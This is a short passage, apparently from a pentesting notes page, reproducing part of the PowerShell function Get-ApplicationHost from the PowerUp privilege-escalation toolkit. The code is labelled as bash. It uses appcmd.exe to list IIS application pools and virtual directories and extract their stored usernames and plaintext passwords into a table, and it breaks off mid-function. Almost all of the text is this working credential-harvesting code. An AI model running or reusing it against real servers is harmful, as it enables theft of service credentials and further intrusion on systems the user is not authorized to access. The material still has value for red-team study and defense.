 This code was extracted from _**PowerUP**_:

```bash
function Get-ApplicationHost {
    $OrigError = $ErrorActionPreference
    $ErrorActionPreference = "SilentlyContinue"

    # Check if appcmd.exe exists
    if (Test-Path  ("$Env:SystemRoot\System32\inetsrv\appcmd.exe")) {
        # Create data table to house results
        $DataTable = New-Object System.Data.DataTable

        # Create and name columns in the data table
        $Null = $DataTable.Columns.Add("user")
        $Null = $DataTable.Columns.Add("pass")
        $Null = $DataTable.Columns.Add("type")
        $Null = $DataTable.Columns.Add("vdir")
        $Null = $DataTable.Columns.Add("apppool")

        # Get list of application pools
        Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppools /text:name" | ForEach-Object {

            # Get application pool name
            $PoolName = $_

            # Get username
            $PoolUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.username"
            $PoolUser = Invoke-Expression $PoolUserCmd

            # Get password
            $PoolPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list apppool " + "`"$PoolName`" /text:processmodel.password"
            $PoolPassword = Invoke-Expression $PoolPasswordCmd

            # Check if credentials exists
            if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
                # Add credentials to database
                $Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
            }
        }

        # Get list of virtual directories
        Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

            # Get Virtual Directory Name
            $VdirName = $_

            # Get username
            $VdirUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"
            $VdirUser = Invoke-Expression $VdirUserCmd

            # Get password
            $VdirPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"
            $VdirPassword = Invoke-Expression $VdirPasswordCmd

            # Check if credentials exists
            if (($VdirPassword -ne "") -and ($VdirPassword -isnot [system.array])) {
                # Add credentials to database
```